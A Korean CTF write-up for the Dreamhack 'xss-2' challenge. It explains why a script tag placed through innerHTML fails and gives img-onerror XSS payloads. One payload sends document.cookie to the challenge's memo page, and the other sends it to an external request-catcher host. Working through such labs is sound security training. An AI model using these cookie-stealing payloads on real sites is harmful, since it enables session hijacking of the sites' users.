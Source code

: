 ```py
    return read_url(url, cookie)

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>' 

        return '<script>alert("good");history.go(-1);</script>'
```

`xss-1`에서는 `/flag`를 통해서 `/vuln`에 접근할 때, `param`을 바로 `render_template` 함수를 사용하지 않고 바로 리턴하기 때문에 스크립트 코드가 포함되었는지 확인하는 `check_xss`가 의미가 없었다. 

이번 문제에서 만약, `xss-1`과 같은 방식으로 `param`을 받아와서 `return render_template(param)`을 해줬다면, `check_xss`에서 `false`를 리턴하는 상황이 생길 수 있지만, 여기서도 그 상황은 아니기 때문에 `check_xss`이 의미가 없긴 하다.

이외에 `/flag`를 통해 `read_url`을 호출해서 셀레니움을 통해 서버에서 `/vuln`에 접속하면서 쿠키를 설정하는 코드는 `xss-1`과 동일하다.

<br>

## 취약점 분석

`xss-1`과는 다르게 `/vuln`에 존재하는 `innerHTML`을 통해 `<script>` 태그를 실행할 수 없게 되었다. 

왜냐하면, `<script>` 태그가 `render_template` 함수를 통해 HTML 엔티티 코드로 변환되지 않아서 그대로 해석할 수 있음에도 불구하고, `HTML5` 버전 이상에서는 `innerHTML`에서 `<script>` 코드를 실행할 수 없기 때문이다.

참고로, `innerHTML`에 저장된 값을 `HTML 태그`로 해석하여 랜더링 할 수 있다. 당연히 엔티티 코드는 `innerHTML`에 전달되도 브라우저에서 출력될 때는 태그로 해석되어 렌더링 되지 않고 태그 문자열 자체로 출력된다.

```html
{% block content %}
    <div id='vuln'></div>
    <script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
{% endblock %}
```

이 부분을 보면, `/vuln`를 접속했을 때의 `URL`에서의 파라미터들을 `x`에 저장한 후, `param` 파라미터에 존재하는 값을 찾아서 `innerHTML`에 저장해주어서 `param`에 `HTML 태그`가 전달된 경우 이를 해석하여 랜더링할 수 있게 된다.

근데, 코드에서 `HTML 엔티티 코드`로 변환하는 부분은 없다고 해도 `<script>` 코드를 실행할 수 없기 때문에 다른 방법을 찾아야 한다.\
(참고로, `read_url`에서 `urllib.parse.quote(param)`은 엔티티 코드로 변환하는게 아니라 `URL 인코딩`을 하는 것이기 때문에 `innerHTML`에 들어갈 때는 태그로 해석되어 렌더링을 할 수 있다.)

<br>

### 1. **/memo** 엔드 포인트 사용

`<script>` 대신 사용할 수 있는 방법이 `<img src = "xss-2", onerror = "location.href = '/memo?memo =' + document.cookie;">` 를 `param`으로 전달해 주는 것이다.

`<script>`를 수행할 수 없다고 해도 `HTML 태그`인 `<img>`는 해석하여 랜더링할 수 있기 때문에, 해당 태그 안에 존재하는 `onerror` 속성도 해석하여 실행할 수 있다.

`src = "xss-2"`는 없는 주소이므로 `error` 이벤트가 발생하는데, 이 때 기존에 사용했던 `location.href = "/memo?memo =" + document.cookie;` 코드를 수행하도록 하면 된다.

참고로, `onerror` 속성에서 실행할 이벤트 핸들러 코드는 문자열을 입력해야 하기 때문에, `""`로 값이 감싸져야 하고, 내부에서 사용되야 하는 `"`는 `'`로 대체하면 된다.

<br>

### 2. 외부 웹서버 이용

드림핵 툴즈를 이용해서 `<img src = "xss-2", onerror = "location.href = 'https://RANDOM.request.dreamhack.games/?vuln_param=' + document.cookie;">`를 `/flag`의 `param`에 전달해주면 된다.
